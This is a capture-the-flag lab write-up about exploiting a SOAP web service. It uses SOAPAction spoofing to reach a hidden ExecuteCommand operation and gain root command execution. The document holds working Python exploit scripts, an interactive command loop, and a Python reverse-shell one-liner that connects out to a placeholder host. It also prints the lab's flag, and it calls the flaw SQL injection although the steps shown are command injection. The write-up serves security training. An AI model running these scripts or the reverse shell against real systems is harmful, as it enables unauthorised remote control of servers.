 ﻿Our client tasks us with assessing a SOAP web service whose WSDL file resides at`http://<TARGET IP>:3002/wsdl?wsdl`.

Assess the target, identify an SQL Injection vulnerability through SOAP messages and answer the question below.

![Pasted image 20250219173246.png](../../../IMAGES/Pasted%20image%2020250219173246.png)

Let's check it out:

![Pasted image 20250219173341.png](../../../IMAGES/Pasted%20image%2020250219173341.png)

We get this code:

```xml
<wsdl:definitions targetNamespace="http://tempuri.org/">
<wsdl:types>
<s:schema elementFormDefault="qualified" targetNamespace="http://tempuri.org/">
<s:element name="LoginRequest">
<s:complexType>
<s:sequence>
<s:element minOccurs="1" maxOccurs="1" name="username" type="s:string"/>
<s:element minOccurs="1" maxOccurs="1" name="password" type="s:string"/>
</s:sequence>
</s:complexType>
</s:element>
<s:element name="LoginResponse">
<s:complexType>
<s:sequence>
<s:element minOccurs="1" maxOccurs="unbounded" name="result" type="s:string"/>
</s:sequence>
</s:complexType>
</s:element>
<s:element name="ExecuteCommandRequest">
<s:complexType>
<s:sequence>
<s:element minOccurs="1" maxOccurs="1" name="cmd" type="s:string"/>
</s:sequence>
</s:complexType>
</s:element>
<s:element name="ExecuteCommandResponse">
<s:complexType>
<s:sequence>
<s:element minOccurs="1" maxOccurs="unbounded" name="result" type="s:string"/>
</s:sequence>
</s:complexType>
</s:element>
</s:schema>
</wsdl:types>
<!-- Login Messages -->
<wsdl:message name="LoginSoapIn">
<wsdl:part name="parameters" element="tns:LoginRequest"/>
</wsdl:message>
<wsdl:message name="LoginSoapOut">
<wsdl:part name="parameters" element="tns:LoginResponse"/>
</wsdl:message>
<!-- ExecuteCommand Messages -->
<wsdl:message name="ExecuteCommandSoapIn">
<wsdl:part name="parameters" element="tns:ExecuteCommandRequest"/>
</wsdl:message>
<wsdl:message name="ExecuteCommandSoapOut">
<wsdl:part name="parameters" element="tns:ExecuteCommandResponse"/>
</wsdl:message>
<wsdl:portType name="HacktheBoxSoapPort">
<!-- Login Operaion | PORT -->
<wsdl:operation name="Login">
<wsdl:input message="tns:LoginSoapIn"/>
<wsdl:output message="tns:LoginSoapOut"/>
</wsdl:operation>
<!-- ExecuteCommand Operation | PORT -->
<wsdl:operation name="ExecuteCommand">
<wsdl:input message="tns:ExecuteCommandSoapIn"/>
<wsdl:output message="tns:ExecuteCommandSoapOut"/>
</wsdl:operation>
</wsdl:portType>
<wsdl:binding name="HacktheboxServiceSoapBinding" type="tns:HacktheBoxSoapPort">
<soap:binding transport="http://schemas.xmlsoap.org/soap/http"/>
<!-- SOAP Login Action -->
<wsdl:operation name="Login">
<soap:operation soapAction="Login" style="document"/>
<wsdl:input>
<soap:body use="literal"/>
</wsdl:input>
<wsdl:output>
<soap:body use="literal"/>
</wsdl:output>
</wsdl:operation>
<!-- SOAP ExecuteCommand Action -->
<wsdl:operation name="ExecuteCommand">
<soap:operation soapAction="ExecuteCommand" style="document"/>
<wsdl:input>
<soap:body use="literal"/>
</wsdl:input>
<wsdl:output>
<soap:body use="literal"/>
</wsdl:output>
</wsdl:operation>
</wsdl:binding>
<wsdl:service name="HacktheboxService">
<wsdl:port name="HacktheboxServiceSoapPort" binding="tns:HacktheboxServiceSoapBinding">
<soap:address location="http://localhost:80/wsdl"/>
</wsdl:port>
</wsdl:service>
</wsdl:definitions>
```

If we check the code, we can find the following:

```xml
<s:element name="ExecuteCommandRequest">
<s:complexType>
<s:sequence>
<s:element minOccurs="1" maxOccurs="1" name="cmd" type="s:string"/>
</s:sequence>
</s:complexType>
</s:element>
```

We got an `executeCommand` element which uses a `cmd`, let's try using this `client.py` script to issue the requests:

```python
import requests

payload = '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><ExecuteCommandRequest xmlns="http://tempuri.org/"><cmd>whoami</cmd></ExecuteCommandRequest></soap:Body></soap:Envelope>'

print(requests.post("http://<TARGET IP>:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
```

If we execute it:

```
python3 client.py 
b'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><ExecuteCommandResponse xmlns="http://tempuri.org/"><success>false</success><error>This function is only allowed in internal networks</error></ExecuteCommandResponse></soap:Body></soap:Envelope>'
```

We get an error mentioning`This function is only allowed in internal networks`. We have no access to the internal networks. We need to spoof, let's do it using this python script, let's name if `SOAPSpoof.py`:

```python
import requests

payload = '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginRequest xmlns="http://tempuri.org/"><cmd>whoami</cmd></LoginRequest></soap:Body></soap:Envelope>'

print(requests.post("http://<TARGET IP>:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
```

We get the following output:

```
ython3 SOAPSpoof.py 
b'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginResponse xmlns="http://tempuri.org/"><success>true</success><result>root\n</result></LoginResponse></soap:Body></soap:Envelope>
```

Now, the `whoami` command we specified in the script worked, as seen, the server responds with `root`, we can automate the process with this script:

```python
import requests

while True:
 cmd = input("$ ")
 payload = f'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginRequest xmlns="http://tempuri.org/"><cmd>{cmd}</cmd></LoginRequest></soap:Body></soap:Envelope>'
 print(requests.post("http://10.129.27.149:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
```


We can stabilize and use netcat once we get the shell using:

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```

![Pasted image 20250219174430.png](../../../IMAGES/Pasted%20image%2020250219174430.png)

And we get a better shell, let's look around for the flag:

![Pasted image 20250219175030.png](../../../IMAGES/Pasted%20image%2020250219175030.png)

We can see an `app.js` file, if we grep it for the flag, this happens:

```
root@nix01-websvc:/app/soap-wsdl# cat app.js | grep FLAG
 'FLAG{1337_SQL_INJECTION_IS_FUN_:)}'
```

We got our flag:

```
FLAG{1337_SQL_INJECTION_IS_FUN_:)}
```

![Pasted image 20250219175123.png](../../../IMAGES/Pasted%20image%2020250219175123.png)


